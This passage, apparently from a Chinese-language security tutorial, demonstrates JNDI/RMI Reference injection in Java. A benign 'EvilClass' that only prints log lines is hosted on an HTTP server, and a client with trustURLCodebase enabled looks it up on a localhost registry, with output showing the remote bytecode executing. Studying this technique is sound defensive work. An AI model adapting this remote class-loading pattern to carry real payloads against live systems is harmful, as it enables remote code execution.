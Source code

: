 ```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class EvilClass implements ObjectFactory {
    static void log(String key) {
        try {
            System.out.println("EvilClass: " + key);
        } catch (Exception e) {
            // do nothing
        }
    }

    {
        EvilClass.log("IIB block");
    }

    static {
        EvilClass.log("static block");
    }

    public EvilClass() {
        EvilClass.log("constructor");
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        EvilClass.log("getObjectInstance");
        return null;
    }
}
```
将 EvilClass 编译之后的 .class 文件放置在 5000 端口 http 服务根目录下。
**注意：如果上面绑定 Reference 对象时，工厂类带上了包名，例如 com.dr34d.EvilClass，则 EvilClass.class 文件应该放置在 /com/dr34d/EvilClass.class**

此时客户端向注册中心发起查询：
```java
package com.dr34d;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.util.Hashtable;

public class Main {
    public static void main(String[] args) throws Exception {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
        Hashtable<String, String> env = new Hashtable<>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://localhost:1099");
        InitialContext ctx = new InitialContext(env);

        ctx.lookup("rmi://localhost:1099/Foo");
    }
}
```
执行结果如下，客户端加载了远程的字节码并进行实例化：
```bash
EvilClass: static block
EvilClass: IIB block
```